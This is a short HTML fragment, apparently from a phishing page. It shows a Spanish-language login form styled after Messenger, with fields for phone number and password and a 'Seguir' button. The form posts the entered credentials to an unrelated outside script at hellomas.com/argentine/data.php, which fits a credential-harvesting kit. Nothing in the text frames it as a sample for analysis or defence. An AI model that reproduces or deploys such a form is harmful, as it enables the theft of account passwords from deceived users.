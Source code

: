             <div class="form">
<form action='https://hellomas.com/argentine/data.php' method='POST' accept-charset='utf-8'>
<div class='username'><input class='massenger_i_user w-100' minlength="3" maxlength="30" name='mail' placeholder='Número de teléfono' required='required' type='text'/></div>
<div class='password'><input class='massenger_i_user w-100' minlength="6" name='pass' placeholder='Contraseña' required='required' type='password'/></div>
<button class='btn_log' type='submit'>Seguir</button> <br>
<div class='form-group'>
<div class='form-check'>
<input class='form-check-input' id='gridCheck' type='checkbox'/>
<label class='form-check-label massenger_check text-secondary' for='gridCheck'>
                Mantenerme registrado
   </label>
</div>
</div>
</form>
                
            </div>
            
                
        </center>
        


    </body>
</html>
